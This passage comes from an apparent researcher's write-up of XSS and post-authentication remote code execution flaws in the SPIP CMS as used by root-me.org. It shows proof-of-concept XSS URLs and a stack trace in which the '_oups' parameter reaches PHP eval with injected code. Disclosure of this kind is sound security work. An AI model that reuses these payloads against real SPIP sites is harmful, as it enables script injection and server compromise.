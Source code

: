### XSS on var_profile (ie-specific)

```html
http://lokal/ecrire/?exec=admin_plugin&var_profile=pouet'/><script>alert(document.domain)</script>
```
<img class="img_big" src="/hacking/rce_on_spip_and_root_me/xss_var_profile_ie.jpg" alt="xss_var_profile_ie">


### "XSS" on _oups

This one made me laugh because it affected parameter "_oups". 

```html
https://www.root-me.org/ecrire/?exec=article&id_article=1&_oups=pouet'/><a href=err onfocus=alert(domain) autofocus/>
https://www.root-me.org/ecrire/?exec=article&id_article=1&_oups=pouet%27/%3E%3Ca%20href=err%20onfocus=alert(domain)%20autofocus/%3E
```
<img class="img_big" src="/hacking/rce_on_spip_and_root_me/xss_oups.jpg" alt="xss_oups">

As I spent two weeks trying to get code execution via local file inclusion, token leaking via the SQLi, attempts to insert serialized objects in the database, and so on. I eventually gave up, assuming that only XSS and SQLi were present. But the very next day, [g0uZ](https://www.root-me.org/g0uZ) (admin at root-me, dev at Spip, what a small world! ) came back to me, explaining that "the last XSS you found is a Remote Code Execution". I was a bit pissed, like "Come on, I already spent too many nights, I’m done here". But I was not!\
He teased me enough to open burp, start the env, put on my hoodie and inject code!\
A few `debug_print_backtrace();` and `echo "lalu_debug_01";die();` later, I had a (post-auth) Remote Code Execution. 

Turns out it was another parameter reflected in the initial eval I was targeting, but this one had no filtering on. Snap! \
This vulnerability can be reached as a webmaster, admin, or author. 

The analysis workflow was the following: 

1. Track the "_oups" parameter, add debug statements
1. Analyse the generated stacktraces, determine that eval is the sink\
I know this is wayyy too small, text version below..
<img class="img_big" src="/hacking/rce_on_spip_and_root_me/stacktrace.jpg" alt="stacktrace">
```
#0  eval() called at [/issue_4494/ecrire/public/evaluer_page.php:55]
#1  include(/issue_4494/ecrire/public/evaluer_page.php) called at [/issue_4494/ecrire/public/assembler.php:657]
#2  evaluer_fond(formulaires/editer_liens, Array ([editable] =>  ,[id] => auteurs-article-1-auteur,[_vue_liee] => auteurs_lies,[_vue_ajout] => auteurs_associer,[_objet_lien] => auteur,[id_lien_ajoute] => ,[objet] => article,[id_objet] => 1,[objet_source] => auteur,[table_source] => auteurs,[recherche] => ,[visible] => 0,[ajouter_lien] => ,[supprimer_lien] => ,[qualifier_lien] => ,[ordonner_lien] => ,[desordonner_liens] => ,[_roles] => ,[_oups] => '<?php debug_print_backtrace();die();?>',[_pipelines] => Array ([formulaire_fond] => Array ([form] => editer_liens,[args] => Array ([0] => auteurs,[1] => article,[2] => 1),[je_suis_poste] => )),[formulaire_args] => z+FJ1rTG/lk75IfPcVqrygiJhj3wixKIFYDVzdNWKSfpyNiJtN8gQpPFZh4QRLr2nrCnZYNK061VIxk9YkVVB9TNlAxClgABPC6zutkBCynE3wP7ew8PXA==,[erreurs] => Array (),[action] => /ecrire/?exec=article&amp;id_article=1&amp;ajouter=non&amp;tri_liste_aut=statut&amp;deplacer=oui&amp;_oups=%27%3C&amp;php%20debug_print_backtrace%28%29%3Bdie%28%29%3B&amp;%3E%27,[form] => editer_liens,[lang] => en), ) called at [/issue_4494/ecrire/inc/utils.php:3258]
```